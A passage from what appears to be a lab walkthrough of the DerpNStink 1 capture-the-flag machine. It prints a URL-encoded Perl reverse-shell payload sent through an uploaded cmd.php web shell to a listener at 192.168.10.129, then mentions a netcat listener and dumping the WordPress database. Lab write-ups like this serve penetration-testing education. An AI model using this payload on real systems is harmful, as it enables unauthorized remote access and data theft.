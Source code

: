 Since we are putting the above command to `cmd.php`, it's best to `urlencode` it to avoid complications. The entire URL looks like this.

```
http://derpnstink.local/weblog/wp-content/uploads/slideshow-gallery/cmd.php?cmd=perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.10.129%22%3B%24p%3D443%3Bsocket%28S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname%28%22tcp%22%29%29%3Bif%28connect%28S%2Csockaddr_in%28%24p%2Cinet_aton%28%24i%29%29%29%29%7Bopen%28STDIN%2C%22%3E%26S%22%29%3Bopen%28STDOUT%2C%22%3E%26S%22%29%3Bopen%28STDERR%2C%22%3E%26S%22%29%3Bexec%28%22%2Fbin%2Fsh%20-i%22%29%3B%7D%3B%27
```

On my end, I set up my `netcat` listener and wait for the shell.

![screenshot-1](/assets/images/posts/derpnstink-1-walkthrough/screenshot-1.png)

Let's spawn a pseudo-TTY for better display and output control.

![screenshot-2](/assets/images/posts/derpnstink-1-walkthrough/screenshot-2.png)

## Database Dump

Now that I've access to a low-privilege shell, let's dump the WordPress database. I should be able to locate the database configuration parameters in the WordPress directory.

![screenshot-3](/assets/images/posts/derpnstink-1-walkthrough/screenshot-3.png)
